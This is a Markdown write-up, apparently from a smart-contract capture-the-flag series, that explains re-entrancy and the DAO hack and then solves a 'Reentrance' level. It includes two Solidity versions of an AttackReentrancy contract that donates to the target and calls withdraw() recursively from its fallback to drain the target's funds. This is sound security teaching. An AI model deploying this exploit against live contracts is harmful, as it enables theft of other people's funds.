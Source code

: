 # Day 10 - Re-entrancy

## What is re-entrancy

Re-entrancy happens in single-thread computing environments, when the execution stack jumps or calls subroutines, before returning to the original execution.

On one hand, this single-thread execution ensures contracts’ atomicity and eliminates some race conditions. On the other hand, **contracts are vulnerable to poor execution ordering.**

![re-entrancy](./images/re-entrancy-1.jpeg)

In the example above, Contract B is a malicious contract which recursively calls A.withdraw() to deplete Contract A’s funds. Note that the fund extraction successfully finishes before Contract A returns from its recursive loop, and even realizes that B has extracted way above its own balance.

**the DAO hack:**

- Fallback functions can be called by anyone & execute malicious code
- Malicious external contracts can abuse withdrawals

## Solution

1. Create a malicious contract called AttackReentrancy.sol, which will first donate to Reentrance.sol, and then recursively withdraw from it until Reentrance is depleted of funds.

2. Create a public function so AttackReentrancy.sol can donate to Reentrance.sol and be registered as a donor in its balances ledger:

Invoking this function will ensure that your malicious contract will be able to call withdraw() at least once, i.e. passing the if(balances[msg.sender] >= \_amount) check.

![diagram](./images/re-entrancy-2.jpeg)

```js
pragma solidity ^0.6.0;

contract AttackReentrancy {
    address payable victim;

    constructor(address payable _victim) public payable {
        victim = _victim;

        // Call Donate
        bytes memory payload = abi.encodeWithSignature("donate(address)", address(this));
        victim.call{value: msg.value}(payload);
    }

    function maliciousWithdraw() public payable {
        // Call withdraw
        // https://www.reddit.com/r/ethdev/comments/fohqaw/understanding_the_intricacies_of_call/flihiaq/
        bytes memory payload = abi.encodeWithSignature("withdraw(uint256)", 0.5 ether);
        victim.call(payload);
    }

    fallback() external payable {
        maliciousWithdraw();
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }
}
```

or

```js
import 'Reentrance.sol';
contract AttackReentrancy {
    Reentrance victim;
    constructor(address payable _victim) public payable {
        victim = Reentrance(_victim);
        victim.donate{value: 1 ether}(address(this));
    }

    function maliciousWithdraw() public payable {
        victim.withdraw(0.5 ether);
    }


    function getBalance() public view returns (uint balance) {
        return address(this).balance;
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }

    fallback() external payable {
        maliciousWithdraw();
    }
}
```

